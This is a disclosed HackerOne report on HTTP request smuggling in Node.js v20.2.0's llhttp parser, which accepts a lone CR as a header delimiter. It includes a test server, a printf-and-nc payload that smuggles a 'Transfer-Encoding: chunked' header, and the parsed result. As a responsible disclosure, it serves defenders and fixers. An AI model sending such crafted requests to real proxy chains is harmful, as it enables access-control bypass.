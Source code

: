 # HTTP Request Smuggling via Empty headers separated by CR

## Report Details
- **Report ID**: 2001873
- **URL**: https://hackerone.com/reports/2001873
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-05-25T13:38:29.301Z
- **Disclosed**: 2023-06-20T21:04:25.574Z

## Reporter
- **Username**: yadhukrishnam
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs

## Vulnerability Information
**Summary:** 
The `llhttp` parser in the http module in Node v20.2.0 does not strictly use the CRLF sequence to delimit HTTP requests. This can lead to HTTP Request Smuggling (HRS).

**Description:** 
The CR character (without LF) is sufficient to delimit HTTP header fields in the llhttp parser. According to RFC7230 section 3, only the CRLF sequence should delimit each header-field.

## Steps To Reproduce:

*Server:*

```javascript
const http = require("http");

http
  .createServer((request, response) => {
    let body = [];
    request
      .on("error", (err) => {
        response.end("Request Error: " + err);
      })
      .on("data", (chunk) => {
        body.push(chunk);
      })
      .on("end", () => {
        body = Buffer.concat(body).toString();

        // log the body to stdout to catch the smuggled request
        console.log("Response");
        console.log(request.headers);
        console.log(body);
        console.log("---");

        response.on("error", (err) => {
          // log the body to stdout to catch the smuggled request
          response.end("Response Error: " + err);
        });

        response.end(
          "Body length: " + body.length.toString() + " Body: " + body
        );
      });
  })
  .listen(5000);
```

*Payload:*

1. Execute the below command.
```shell
printf "POST / HTTP/1.1\r\n"\
             "Host: localhost:5000\r\n"\
             "X-Abc:\rxTransfer-Encoding: chunked\r\n"\
             "\r\n"\
             "1\r\n"\
             "A\r\n"\
             "0\r\n"\
             "\r\n" | nc localhost 5000
```

2. Note that the value of `X-Abc` header in the request is - `[\r]xTransfer-Encoding: chunked[\r\n]`
3. The llhttp library parses this as a `Transfer-Encoding: chunked` header.
```
Response
{ host: 'localhost:5000', 'x-abc': '', 'transfer-encoding': 'chunked' }
A
---
```

*Note:*
1. The next character to `\r` is missing in the parsed header name.
2.  This test case is missing from https://github.com/nodejs/llhttp/blob/main/test/request/invalid.md.

A frontend proxy that does not consider `\r` as termination of an HTTP header value, could forward this to a backend, causing an HRS. 

## Supporting Material/References:

This report is similar to:
  * https://hackerone.com/reports/1888760

## Impact

HTTP Request Smuggling can lead to access control bypass.

## Attachments
No attachments
